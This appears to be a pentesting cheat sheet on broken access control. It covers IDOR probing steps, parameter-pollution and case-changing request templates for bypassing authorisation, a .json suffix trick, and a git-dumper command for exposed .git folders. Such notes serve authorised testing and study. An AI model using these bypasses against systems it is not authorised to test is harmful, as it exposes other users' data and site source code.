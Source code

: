 ## Broken Access Control - IDOR (Insecure Direct Object References)
1. Search listing of Id's in requests and in case you don't find create at least two accounts and analysis requests involving ID's  
2. Identify access controls in the application  
3. Change the request method (GET, POST, PUT, DELETE, PATCH…)  
4. search old versions of API's /api/v1/ /api/v2/ /api/v3/  
5. Try sending a (*) instead of the ID, especially at search points  
6. Brute-force IDs depending on context and predictability 
	
### IDOR + Parameter Pollution
#### HTTP Parameter Pollution
```
GET /api/v1/messages?id=<Another_User_ID> # unauthourized
GET /api/v1/messages?id=<You_User_ID>&id=<Another_User_ID> # authorized
GET /api/v1/messages?id[]=<Your_User_ID>&id[]=<Another_User_ID>
```
	
#### Json Parameter Pollution
```
POST /api/v1/messages
{"user_id":<You_user_id>,"user_id":<Anoher_User_id>} 
```
-> with a JSON Object
```
POST /api/v1/messages
{"user_id":{"user_id":<Anoher_User_id>}} 
```
-> with array  
```
{"user_id":001} #Unauthorized
{"user_id":[001]} #Authorized
```
#### Random Case
GET /admin/profile #Unauthorized
GET /ADMIN/profile #Authorized

### UUIDv1
- https://caon.io/docs/exploitation/other/uuid/
- https://github.com/felipecaon/uuidv1gen

#### Others
-> add .json if in ruby
```
/user/1029 # Unauthorized
/user/1029.json # Authorized
```

## Git Exposed
```
git-dumper http://site.com/.git .
```
- https://github.com/arthaud/git-dumper
